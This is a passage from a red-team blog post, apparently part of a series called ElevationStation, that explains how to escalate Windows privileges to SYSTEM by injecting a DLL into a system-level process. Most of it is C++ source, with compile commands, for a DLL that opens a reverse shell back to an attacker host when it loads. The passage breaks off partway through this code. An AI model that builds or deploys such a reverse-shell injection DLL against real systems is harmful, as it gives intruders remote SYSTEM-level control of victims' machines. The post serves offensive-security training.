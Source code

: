 ```yaml
---
title:  "ElevationStation - A walk through the development process [Finale/Wrapping things up]"
header:
  teaser: "/assets/images/teaser4.png"
categories:
  - privilege escalation
tags:
  - escalation
  - dll injection
  - malware
  - red team
  - win32api
  - privesc
  - privilege escalation
  - elevationstation
  - getsystem
  - metasploit
---
```


Hello again cyber amigos!  It's time to draw our talk of ElevationStation to a close, well...at least this portion of Elevation Station.  Stay tuned in the near future for discussions surrounding how C2 models are designed and using elevationstation with a C2 framework for easy escalation!

Let's talk about privilege escalation using DLL Injection: 
-
The general approach to DLL injection, as it pertains to escalating from local admin to SYSTEM, is to inject a DLL into a system level process.

We begin by coding our dll and include a function that gets called on the DLL ATTACH portion of our code.  This function handles our reverse shell which of course will call back home to our attacker box:

```c++

// For x64 compile with: x86_64-w64-mingw32-gcc -o mig2.dll -shared mig2.c -lws2_32
// For x86 compile with: i686-w64-mingw32-gcc -o mig2.dll -shared mig2.c -lws2_32
void socketfunc(void);

#include <stdio.h>
#include <string.h>
#include <process.h>
#include <winsock2.h>
#include <ws2tcpip.h>
#include <windows.h>
void socketfunc(void)
{
	//FreeConsole();
	const char* REMOTE_ADDR = "127.0.0.1";
	unsigned short REMOTE_PORT = 4445;
	WSADATA wsaData;
	SOCKET wSock;
	WSAStartup(MAKEWORD(2, 2), &wsaData);
	struct sockaddr_in sockinfo;
	//memset(&sockinfo, 0, sizeof(sockinfo))
	// create socket
	wSock = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, NULL, NULL, NULL);
	sockinfo.sin_family = AF_INET;
	sockinfo.sin_port = htons(REMOTE_PORT);
	sockinfo.sin_addr.s_addr = inet_addr(REMOTE_ADDR);
	// connect to remote host
	WSAConnect(wSock, (SOCKADDR*)&sockinfo, sizeof(sockinfo), NULL, NULL, NULL, NULL);

	STARTUPINFO si;
```